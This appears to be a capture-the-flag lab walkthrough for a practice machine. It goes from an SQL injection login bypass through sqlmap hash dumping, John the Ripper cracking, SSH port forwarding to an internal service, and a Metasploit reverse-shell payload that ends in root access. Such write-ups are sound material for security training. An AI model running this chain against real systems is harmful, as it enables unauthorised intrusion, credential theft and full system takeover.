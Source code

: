 you get into the website through an sql injection using

```
' or 1=1 #
```

intercept a search request with burp and put the content into a dump file

use sqlmap to get the password hashes from the dump

```
sqlmap -r search-request-dump.txt --dbms=mysql --dump
```

use john the ripper on the password has

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Can now ssh onto the box

using the following you find a running service you cannot get to from an outside connection due to firewall rules (port 10000)

```
ss -tulpn
```

you use reverse ssh to forward the traffic to you so you can see the page on your local host

```
ssh -L 10000:localhost:10000 agent47@10.10.209.139
```

you can then login to with the agent47 credentials to access whatever is on this service

you can then use searchsploit to find vulns since once you login you see the CMS and version of it

use the metasploit module

set it up as normal but also do the following

```
set payload cmd/unix/reverse 
set ssl false
```

then **exploit** which will make a session which you can drop into and get the root flag

```
sessions -i 1
```